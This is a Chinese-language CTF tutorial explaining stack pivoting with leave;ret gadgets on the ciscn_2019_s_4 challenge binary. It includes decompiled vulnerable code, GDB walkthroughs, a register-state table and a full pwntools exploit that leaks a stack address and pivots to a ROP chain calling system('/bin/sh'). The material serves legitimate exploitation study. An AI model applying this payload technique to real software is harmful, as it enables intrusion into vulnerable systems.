








栈迁移
例题下载地址:ciscn_2019_s_4
目录
第一篇文章可能写得有点的仓促
一.困境:溢出空间不足
一个栈题关键代码如下：
int __cdecl main(int argc, const char **argv, const char **envp)
{
init();
puts("Welcome, my friend. What's your name?");
vul();
return 0;
}int init()
{
setvbuf(stdin, 0, 2, 0);
return setvbuf(stdout, 0, 2, 0);
}int vul()
{
char s[40]; // [esp+0h] [ebp-28h] BYREF
memset(s, 0, 0x20u);
read(0, s, 0x30u);
printf("Hello, %s\n", s);
read(0, s, 0x30u);
return printf("Hello, %s\n", s);
}int hack()
{
return system("echo flag");
}检查保护：
checksec ciscn_2019_s_4
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
Stripped: No- 我们能发现溢出空间只有0x30-0x28-0x4=4字节，这四字节似乎也无法构造ROP链，该怎么办呢 这就是栈迁移(stack pivoting)到用武之地了。
二.原理:为什么要”搬家”
然覆盖返回地址的地方不够放 ROP 链，我们能不能把整个"战场"搬到一个更宽敞的地方——比如我们完全可控的缓冲区 `s` 本身？
栈迁移的核心思想，就是把
esp/ebp劫持到我们预先布置好 ROP 链的缓冲区上，从而让程序在执行完当前函数后，去执行我们伪造的新栈上的内容。
要理解这个”搬家”过程，必须先理解 leave;ret 这对黄金指令。
2.1 必备知识
指针约定：[寄存器] 表示取该寄存器指向地址处的值。例如 [ebp] 就是取 ebp 指向的栈底单元里存储的值
leave等价于
mov esp, ebp ; 1. 将栈顶指针拨回栈底，平掉当前函数的栈帧
pop ebp ; 2. 将栈顶存的旧ebp值弹出到ebp，恢复调用者的栈底pop ebp等价于
mov ebp, [esp] ; 将当前栈顶的值写入ebp
add esp, 4 ; 栈顶上移标准的函数尾声:
leave
ret 函数的标准尾声就是 leave 后接 ret。ret 会 pop eip，跳转到 esp 当前指向的地址执行。
简单来说：
leave负责恢复调用者的栈帧，ret负责跳转到调用者留在栈上的返回地址。
2.2图解
leave执行

ret图解

2.3 栈迁移的”偷梁换柱”
正常情况下，leave 弹出的 ebp 是 main 函数的栈基址，ret 跳转的地址是 main 函数中的下一条指令。
我们的攻击思路是：
-
利用溢出，用缓冲区的地址覆盖掉栈上保存的旧
ebp。 -
用
leave; ret指令的地址覆盖返回地址。
这样一来，函数尾声的执行流程就变成了：
-
第一次
leave：-
mov esp, ebp：将esp拉到当前ebp的位置。 -
pop ebp：将栈顶我们伪造的”缓冲区地址”弹出到ebp。此时ebp已经被劫持到了缓冲区。 -
esp现在指向返回地址处。
-
-
第一次
ret：跳转执行我们覆盖的leave; ret指令。 -
第二次
leave：-
mov esp, ebp：esp跟随ebp也来到了缓冲区。 这就完成了”栈迁移”。 -
pop ebp：弹出缓冲区最开始的 4 字节（我们的 ROP 链通常从这里开始）。 -
esp现在指向我们真正的 ROP 代码。
-
-
第二次
ret：开始执行 ROP 链！
精髓就在于两次 leave：第一次劫持 ebp，第二次将 esp 拉过来，从而把程序的控制流完全转移到我们可控的缓冲区上。
三.实战:GDB调试调试观察
原理说再多，不如在 GDB 里亲眼看看寄存器和栈的变化。下面以 ciscn_2019_s_4 为例，结合调试过程进行分析。
3.1 原理
原理应该还得自己在gdb一步步看，实例exp（我用tmux):
from pwn import *
context.binary = './ciscn_2019_s_4'
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
p = process('./ciscn_2019_s_4')
#p = remote('node5.buuoj.cn',28336)
leave_ret = 0x08048562
system = 0x8048400
p.recv()
gdb.attach(p, gdbscript="""
set disassembly-flavor intel
set follow-fork-mode parent
b *0x80485fc
c
""")
#p.sendline(b'a'*0x27+b'B')
payload0 =b'a'*0x27+b'B'
p.send(payload0)
p.recvuntil('B')
main_ebp = u32(p.recv(4))
p.recv()
# 核心payload构造
payload = (b'aaaa' # 第二次leave弹走的假ebp
+ p32(system) # ROP: system地址
+ p32(0) # system的返回地址(占位)
+ p32(main_ebp - 0x28) # 指向"/bin/sh"的指针
+ b'/bin/sh\x00' # "sh"字符串
).ljust(0x28, b'\x00') # 填充到恰好覆盖旧ebp
payload += p32(main_ebp - 0x38) # 伪造的旧ebp,指向缓冲区起点
payload += p32(leave_ret) # 覆盖返回地址
p.sendline(payload)
p.interactive()3.2 逐步调试
我们在 vul 函数的 leave 指令前的nop处（0x80485fc）下断点，观察两次发送后的内存状态。
断点1：第一次 leave 执行前

-
我们可以看到栈上旧
ebp已被覆盖为缓冲区地址，返回地址已被覆盖为leave;ret的地址。 -
ROP 链已经静静躺在缓冲区等待执行了。
断点2：第一次 leave 后，ret 前

-
mov esp, ebp+pop ebp执行后，ebp已经变成了缓冲区的地址。 -
esp指向了返回地址，准备执行ret。
断点3：第一次 ret 执行后（第二次 leave 前）

EIP已经指向我们布置的leave;ret指令，即将开始第二轮操作。
断点4：第二次 leave 执行前

esp和ebp的位置准备就绪，第二次leave会将esp彻底拉到缓冲区。
断点5：最终执行 ROP

- 第二次
leave;ret执行完毕，esp指向了system的地址，成功getshell。
3.3 寄存器状态变化表（核心）
前提约定：
buf= 缓冲区起点（我们布置 ROP 链的位置）
buf+0x28= 保存的旧ebp所在位置
buf+0x2c= 返回地址所在位置
发送 payload 后，我们覆盖了：
-
旧
ebp位置 → 填入buf（缓冲区起点地址） -
返回地址位置 → 填入
leave;ret的 gadget 地址
| 寄存器 | ① 初始 (leave前) | ② leave第一步 (mov esp,ebp) | ③ leave第二步 (pop ebp) | ④ ret | ⑤ 我们填充的 leave | ⑥ 最终的 ret |
|---|---|---|---|---|---|---|
| esp | 指向 buf | 指向 buf+0x28 | 指向 buf+0x2c | 指向 buf+0x30 (ROP区外) | 指向 buf+4 | 指向 buf+8 |
| [esp] | 填充的假 ebp(0xaaaa) | 我们覆盖的 buf 地址 | leave;ret 地址 | 不重要 | system 地址 | 0(占位) |
| ebp | 指向 buf+0x28 | 指向 buf+0x28 | 指向 buf(迁移!) | 指向 buf | 指向 0xaaaa (不重要) | 不重要 |
| [ebp] | 我们覆盖的 buf 地址 | 我们覆盖的 buf 地址 | 填充的假 ebp(0xaaaa) | 填充的假 ebp | - | - |
| eip | leave | pop ebp | ret | leave(我们的) | ret | system |
一句话总结这个过程
-
第一次
leave：ebp被我们从buf+0x28劫持到了buf（缓冲区起点）。 -
第一次
ret：跳转执行我们布置的第二个leave;ret。 -
第二次
leave：esp跟着ebp也来到了buf，完成栈迁移。 -
第二次
ret：esp指向buf+4处的system地址，ROP 链开始执行。
3.4总结原理:
- 第一个leave是让ebp迁移到缓冲区起点，但这个时候esp还没迁移过来，不好劫持程序流程
- 第二个leave是让esp跟着ebp迁移到缓冲区取点，栈迁移，方便执行rop链
只要你能想明白3.3的表格，那么你就能想明白栈迁移到原理。
栈迁移原理大概就是这样，最好自己gdb调试看看
学习心得
我也是从栈迁移才开始从程序执行流程来想，用gdb来看，才明白程序的执行流程，感觉真的明白了pwn。在这之前都是脚本小子，只会套模板构造payload 栈这个数据结构主要操作都要通过栈顶指针寄存器,所以得重新把栈顶指针迁移到缓冲区起点。
4.复现:payload构造思路
4.1 前置准备
- 获取,可用的gadget
leave ,ret的指令地址,获取system的plt地址
ROPgadget --binary ciscn_2019_s_4 |grep leave
objdump -d ciscn_2019_s_4|grep system 4.2先拿到有关的ebp的真实地址
由于程序没有栈地址泄露，我们利用第一次 read 后的 printf 功能来泄露。printf 遇到 \x00 才会停止，所以我们填充 0x27 个 'a' + 'B'，让它恰好把旧 ebp 打印出来,'B'是标示符，看到'B'就知道要打印出栈地址了。

我们发现main函数的栈基址在vul的栈基址的0x10上面处- 我们先通过覆盖到ebp处，把[ebp]即main函数的栈基址打印出来,现在用B来定位
- payload0
payload0 =b'a'*0x27+b'B'这样就能拿到main的ebp了，而缓冲区起点则是ebp-0x28即main_ebp-0x38
4.3分析
有system函数但没/bin/sh字符串。那我们计算，第二次leave后，即mov esp,ebp,push ebp.
mov esp,ebp,此时esp回到缓冲区起点，即esp= main_ebp-0x38,pop ebp,此时esp= esp+4,即esp = main_ebp - 0x34- 而
esp指向的main_ebp - 0x34处要放system_plt调用system函数 - 为了对齐，
system后的内存单元main_ebp - 0x30还要放0 - 所以
main_ebp - 0x2c处放填/bin/sh的位置作为system的参数 - 所以
main_ebp - 0x28处填入/bin/sh是最方便的，也方便计算。 - 再把
leave , ret填入payload中 所以得到payload,
payload = (b'aaaa'+p32(system)+p32(0)+p32(ebp-0x28)+b'/bin/sh').ljust(0x28,b'\x00')+p32(ebp-0x38)+p32(leave_ret)